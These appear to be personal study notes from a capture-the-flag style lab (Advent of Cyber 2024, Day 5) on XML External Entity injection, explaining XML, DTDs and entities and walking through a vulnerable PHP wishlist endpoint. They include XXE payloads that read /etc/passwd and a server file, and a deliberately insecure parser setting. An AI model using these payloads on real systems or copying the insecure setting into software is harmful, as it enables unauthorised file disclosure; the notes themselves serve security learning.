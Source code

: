 
2024-12-10 14:57

Source: #AOC24 

Tags: [[Injection]]

### Extensible Markup Language (XML)

[[XML]] is a commonly used method to transport and store data in a structured format that is easy to understand.
XML uses `tags` to label and organize information
The key benefit of XML is that it is easily shareable and customizable, allowing you to create your own tags. 

```xml
<people>
	<name>Glitch</name>
	<address>Wareville</address>
</people>
```
### Document Type Definition (DTD)

DTD is a set of **rules** that defines the structure of an XML document.

```dtd
<!DOCTYPE people [ 
	<!ELEMENT people(name, address)> 
	<!ELEMENT name (#PCDATA)>
	<!ELEMENT address (#PCDATA)>
]>
```
### Entities

- Entities in XML are placeholders that allow the insertion of large chunks of data or referencing internal or external files. 
- Entities can be defined internally within the XML document or externally, referencing data from an outside source.

```xml
<!DOCTYPE people [
	<!ENTITY thmFile SYSTEM "file:///etc/passwd">
]>
<people>
	<name>Glitch</name> 
	<address>&thmFile;</address>
</people>
```
### XML External Entity (XXE)

- XXE is an attack that takes advantage of **how** **XML parsers handle external entities**.
- When a web application processes an XML file that contains an external entity, the parser attempts to load or execute whatever resource the entity points to. If necessary sanitization is not in place, the attacker may point the entity to any malicious source/code causing the undesired behavior of the web app.
### Lab

we can wish list items and it assigns a wish number to every wish list 
Now, when you visit the URL, `http://MACHINE_IP/product.php`, and click `Add to Wishlist`, an AJAX call is made to `wishlist.php`

This `wishlist.php` accepts the request and parses the request using the following code:

```javascript
<?php
..
...
libxml_disable_entity_loader(false);
$wishlist = simplexml_load_string($xml_data, "SimpleXMLElement", LIBXML_NOENT);

...
..
echo "Item added to your wishlist successfully.";
?>

```

When a user sends specially crafted XML data to the application, the line `libxml_disable_entity_loader(false)` allows the XML parser to load external entities. This means the XML input can include external file references or requests to remote servers. When the XML is processed by `simplexml_load_string` with the `LIBXML_NOENT` option, the web app resolves external entities, allowing 

inject this payload in the `wishlists.php` request 
**Note: Not all web applications use the path /var/www/html, but web servers typically use it.**

```javascript
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY payload SYSTEM "/var/www/html/wishes/wish_1.txt"> ]>
<wishlist>
	<user_id>1</user_id>
	<item>
	       <product_id>&payload;</product_id>
	</item>
</wishlist>
```

### References
DAY 5 